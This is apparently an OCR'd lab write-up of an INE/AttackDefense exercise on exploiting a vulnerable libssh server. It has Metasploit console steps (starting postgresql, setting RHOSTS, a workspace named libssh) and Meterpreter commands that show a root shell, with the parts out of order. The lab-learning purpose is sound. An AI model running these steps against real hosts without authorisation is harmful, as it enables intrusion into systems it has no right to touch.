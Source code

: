 ```
sessions
sessions 2
```

`getuid`: Get user id tells us that we currently have root privileges, which consequently means that we do not need to elevate our privileges on the target system.

```
meterpreter > sysinfo
meterpreter > getuid
```

That is how to exploit a vulnerable SSH server.

# Vulnerable SSH server
## Overview
The target server as described below is running a vulnerable SSH server. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a Meterpreter shell on the target!

Instructions: 

* This lab is dedicated to you! No other users are on this network :)
* Once you start the lab, you will have access to a root terminal of a Kali instance
* Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
* The target server should be located at the IP address 192.X.Y.3.
* Do not attack the gateway located at IP address 192.X.Y.1
* postgresql is not running by default so Metasploit may give you an error about this when starting

## Solutions
The solution for this lab can be found in the following manual: https://assets.ine.com/labs/ad-manuals/walkthrough-448.pdf

## 我自己的思路
```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.198.72.2  netmask 255.255.255.0  broadcast 192.198.72.255
        ether 02:42:c0:c6:48:02  txqueuelen 0  (Ethernet)
```

Target IP Address: 192.198.72.3

```
root@attackdefense:~# service postgresql start
[ ok ] Starting PostgreSQL 11 database server: main.
root@attackdefense:~# msfconsole -q
msf5 > workspace -a libssh
[*] Added workspace: libssh
[*] Workspace: libssh
msf5 > setg RHOSTS 192.198.72.3
RHOSTS => 192.198.72.3
```
